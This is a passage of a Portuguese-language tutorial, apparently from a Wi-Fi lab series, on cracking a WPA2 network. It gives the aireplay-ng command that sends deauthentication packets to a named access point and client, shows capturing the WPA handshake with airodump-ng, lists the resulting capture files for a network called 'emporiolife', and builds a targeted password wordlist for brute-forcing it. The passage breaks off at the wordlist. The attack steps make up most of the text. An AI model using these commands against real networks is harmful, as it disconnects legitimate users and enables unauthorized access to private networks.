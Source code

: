 ### Realizando deauth usando aireplay-ng 
O **aireplay-ng** é uma ferramenta muito interessante , ela pode nos auxiliar em diversas coisas.

Podemos ver as opções usando
```sh
sudo aireplay-ng --help
```

Vamos usar a opção **--deauth** , vamos usar tambem o contador **count**. (Vamos ver mais sobre ela em outro tutorial.)

Vamos montar nosso ataque para desautenticação , vamos usar

- deauth (enviar 5 pacotes de desautenticação)
- -a (para passar o MAC)
- -c (18:D6:C7:D2:D3:CC)

```sh
sudo aireplay-ng --deauth 5 -a 18:D6:C7:D2:D3:CC -c AC:D0:74:20:CB:20 wlp2s0mon
```

![Desautenticação](https://abase.greenmindlabs.com/images/wifi/Quebrando-redes-WPA2/lab-wifi-07.png)


Após realizar o ataque de dasautenticação podemos ver o **airodump-ng** e checar se apareceu no canto superior direito a mensagem. **WPA handshake: 18:D6:C7:D2:D3:CC**.

Veja na imagem a baixo
![WPA handshake](https://abase.greenmindlabs.com/images/wifi/Quebrando-redes-WPA2/lab-wifi-08.png)


Podemos fechar o **airodump-ng**.

### Analisando arquivos gerados
Vamos listar os arquivos gerados , podemos dar um **ls** para listar o diretório.

Veja a imagem a baixo.
![Arquivos obtidos](https://abase.greenmindlabs.com/images/wifi/Quebrando-redes-WPA2/lab-wifi-09.png)


Podemos ver os arquivos com o nome **emporiolife**.
- emporiolife-01.cap
- emporiolife-01.csv
- emporiolife-01.kismet.csv
- emporiolife-01.kismet.netxml

### Realizando brute force 
Vamos agora precisar de uma wordlist , baseada nessa wordlist que a senha será quebrada e se a senha não estiver nessa wordlist ela não sera quebrada.

Para realizar esse teste podemos criar uma wordlist para testes , mais poderíamos usar outros dicionários de senhas.

Vou criar o dicionario chamado **alvo-emporiolife.txt** com possíveis senhas do alvo.
```sh
emporio
life
emporiolife
emporiolifewifi
wificlientes
wififuncionarios
wifi2018
wifipassword
emporiolife@123
emporiolife2018
emporiolife@2018
lifeemporio
senha2018
12345senha
```